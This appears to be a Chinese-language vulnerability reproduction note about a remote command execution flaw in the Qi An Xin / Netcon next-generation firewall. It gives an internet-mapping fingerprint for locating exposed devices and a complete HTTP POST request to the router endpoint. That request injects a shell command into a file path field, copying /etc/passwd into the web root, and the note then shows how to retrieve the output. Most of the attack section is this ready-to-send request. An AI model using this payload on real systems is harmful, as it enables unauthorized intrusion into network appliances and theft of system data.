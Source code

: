 # 

# 奇安信网康 下一代防火墙 router 远程命令执行漏洞

## 漏洞描述

奇安信 网康下一代防火墙存在远程命令执行，通过漏洞攻击者可以获取服务器权限

## 漏洞影响

```
奇安信 网康下一代防火墙
```

## 网络测绘

```
app="网康科技-下一代防火墙"
```

## 漏洞复现

登录页面如下

![](./images/202202162229920.png)

发送如下请求包

```plain
![2](C:\Users\47236\Desktop\2.png)POST /directdata/direct/router HTTP/1.1
Host: XXX.XXX.XXX.XXX
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_cmd.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```

再请求获取命令执行结果

```plain
http://xxx.xxx.xxx.xxxx/test_cmd.txt
```

![](./images/202202162229568.png)


